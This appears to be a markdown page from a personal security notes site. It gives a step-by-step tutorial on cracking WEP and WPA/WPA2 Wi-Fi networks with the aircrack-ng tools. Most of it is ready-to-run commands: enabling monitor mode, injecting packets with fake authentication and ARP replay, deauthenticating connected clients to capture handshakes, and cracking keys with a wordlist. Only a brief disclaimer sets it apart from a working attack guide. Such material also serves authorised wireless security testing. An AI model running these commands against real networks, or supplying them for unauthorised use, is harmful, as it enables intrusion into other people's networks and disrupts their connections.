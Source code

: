 ```yaml
---
title: Network cracking
layout: page
parent: wifi
---
```


# Network cracking

<details open markdown="block">
  <summary>
    Table of contents
  </summary>
  {: .text-delta }
1. TOC
{:toc}
</details>

---

## Setup

### Disclaimer

This is for educational purposes only. Do not use this information for illegal activities. Always get permission before testing any network.

### Monitor mode

First off, you need to set up your wifi interface in monitor mode. To do so, you need to know the name of your wifi interface. You can find it by running the following command:

```bash
ip addr
```

This will list all the network interfaces on your system. Look for the one that corresponds to your wifi adapter. It is usually named `wlan0`, `wlan1`, `wlo1` or something similar.
Once you have identified your wifi interface, you can set it to monitor mode using the following commands :

```bash
sudo airmon-ng check kill   # kill processes that can interfere
sudo airmon-ng start <interface>  # start monitor mode
```

### Network scanning

Now, you can scan for wifi networks using the following command:

```bash
sudo airodump-ng <monitor_interface> #eg wlan0mon
```

This will display a list of all the wifi networks in range, and note the BSSID (MAC address) and channel of the target network.

## WEP cracking

### Capture packets

To crack WEP, you need to capture packets from the target network. You can do this using the following command:

```bash
sudo airodump-ng --channel <channel> --bssid <BSSID> --write <output_file> <monitor_interface>
```

You want a lot of Data packets (not just Beacons).

### Speed up the process

To speed up the process, you can use the following command to inject packets into the network:

```bash
sudo aireplay-ng --fakeauth 0 -a <BSSID> <monitor_interface>
```

This will authenticate you to the network and allow you to capture more packets, then you can use the following command to generate ARP requests:

```bash
sudo aireplay-ng --arpreplay -b <BSSID> <monitor_interface>
```

This will generate a lot of traffic and help you capture more packets.

### Cracking the WEP key

Once you have captured enough packets (at least 10000 IVs), you can crack the WEP key using the following command:

```bash
sudo aircrack-ng <output_file>
```

This will attempt to crack the WEP key using the captured packets. If successful, it will display the WEP key in the terminal.

## WPA/WPA2 cracking

### Capture the handshake

To crack WPA/WPA2, you need to capture a 4-way handshake. To do so, you have to capture the handshake when a client connects to the network, so start the airodump-ng command to capture packets:

```bash
sudo airodump-ng --channel <channel> --bssid <BSSID> --write <output_file> <monitor_interface>
```

If a client is connected to the network, you will see the handshake in the terminal. If not, you can use the following command to deauthenticate a client and force it to reconnect in another terminal:

```bash
sudo aireplay-ng --deauth 10 -a <BSSID> -c <STATION> <monitor_interface>
```

### Cracking the WPA/WPA2 key

Once you have captured the handshake, you can crack the WPA/WPA2 key using a wordlist. You can use the following command to crack the key:

```bash
sudo aircrack-ng -w <wordlist> <capture_file>
```

This will attempt to crack the WPA/WPA2 key using the wordlist provided. If successful, it will display the WPA/WPA2 key in the terminal.

## Resetting the interface

Once you are done with the cracking, you can reset your wifi interface to its normal mode using the following command:

```bash
sudo airmon-ng stop <monitor_interface>
```

This will stop the monitor mode and reset the interface to its normal mode.
You can also use the following command to restart the network manager:

```bash
sudo systemctl restart NetworkManager
```

This will restart the network manager and allow you to connect to wifi networks again.
